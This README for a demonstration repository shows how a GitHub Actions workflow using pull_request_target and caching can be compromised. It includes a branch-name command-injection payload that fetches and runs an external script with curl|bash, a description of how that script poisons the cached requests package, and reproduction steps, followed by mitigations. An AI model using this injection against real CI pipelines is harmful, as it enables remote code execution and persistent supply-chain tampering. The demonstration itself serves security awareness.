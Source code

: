 ## README - test

### Overview

This repository demonstrates how a GitHub Actions pipeline can be compromised through a malicious pull request that abuses `pull_request_target` and caching. Specifically, an attacker can run their own code in the CI environment and poison the `.pip-cache`, causing future builds to print "You are hacked!" without any further attacker involvement.

**Key points:**

- The pipeline uses `pull_request_target`.
- The workflow uses `actions/cache` to store Python dependencies in `.pip-cache`.
- The attacker’s malicious code, hosted externally, modifies the cached `requests` dependency to print "You are hacked!" whenever `requests` is imported.
- After poisoning the cache, subsequent main branch builds restore the maliciously altered dependencies and display the hacked message.

### The Attacker’s Payload

The attacker hosts a malicious script (`evil.sh`) externally. The provided script is available at:

```
https://gist.githubusercontent.com/colek42/0a6254d21b98e7a437d568126e1d261c/raw/ec71ca09b8f0bede20547679315f5213c638d444/evil.sh
```

**What `evil.sh` Does:**

1. It locates the `requests` package in `.pip-cache`.
2. It prepends a `print("You are hacked!")` statement to `requests/__init__.py`.
3. This ensures that any future import of `requests` will display the hacked message.

### The Malicious Branch Name

To run `evil.sh`, the attacker crafts a PR from a branch name that executes a `curl|bash` payload. For example:

```
$({curl,-sSfL,https://gist.githubusercontent.com/colek42/0a6254d21b98e7a437d568126e1d261c/raw/ec71ca09b8f0bede20547679315f5213c638d444/evil.sh}|bash)
```

When the CI workflow encounters `git pull origin $branch`, it substitutes this malicious branch name, thus fetching and executing `evil.sh` during the `pull_request_target` event.

### Steps to Reproduce (High-Level)

1. **Initial Setup:**
   - You set up this repository with a simple Python application in `src/`.
   - `requirements.txt` includes `requests`.
   - The `ci.yml` workflow uses `pull_request_target` and `actions/cache`.

2. **Initial Run:**
   - On push to `main`, the workflow runs, installs `requests`, and caches it.  
   - `python src/main.py` prints “Hello, world!” normally.

3. **Attacker’s PR:**
   - The attacker creates a PR from a maliciously named branch as described.
   - The CI runs `pull_request_target`, executes `git pull origin $branch`, and thus runs `evil.sh`.
   - `evil.sh` poisons `.pip-cache` by modifying `requests/__init__.py` to print “You are hacked!”.

4. **After the Attack:**
   - Merging the PR or simply triggering another run on `main` restores the now-poisoned cache.
   - `requests` is imported again, but this time it prints “You are hacked!” before returning.

### Observing the Result

After the cache is poisoned, any new run on `main` that imports `requests` will display:

```
You are hacked!
Hello, world!
```

This shows the persistent compromise carried forward by the cached dependencies.

### Cleanup and Mitigation

- To reset the environment, modify `requirements.txt` (e.g., add a blank line) to change the cache key and force a fresh dependency install.  
- Remove or avoid `pull_request_target` for untrusted code.  
- Validate file integrity or use supply chain security tools (like Witness) to detect unexpected modifications.
